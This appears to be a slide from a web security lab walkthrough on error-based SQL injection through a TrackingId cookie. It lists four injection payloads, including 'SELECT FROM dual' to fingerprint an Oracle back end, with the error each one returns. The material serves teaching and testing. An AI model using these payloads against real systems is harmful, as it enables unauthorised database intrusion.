

Now we  to confirm that the server is interpreting the injection as a SQL query i.e. that  the error is a SQL syntax error as opposed to any other kind of error run following queries:-

Query1:  TrackingId=xyz''

                 This will not return any error. SQL syntax is correct

Query2:  TrackingId=xyz'||(SELECT '')||'

                   Invalid SQL . Error  is returned

Query3:  TrackingId=xyz'||(SELECT '' FROM dual)||'

                   Correct SQL . No error  returned .Indicating “oracle”  database is used

Query4:  TrackingId=xyz'||(SELECT '' FROM non-real-table-name)||'

                   Returns error indicating the backend is using some sql query over this
                   tracking_id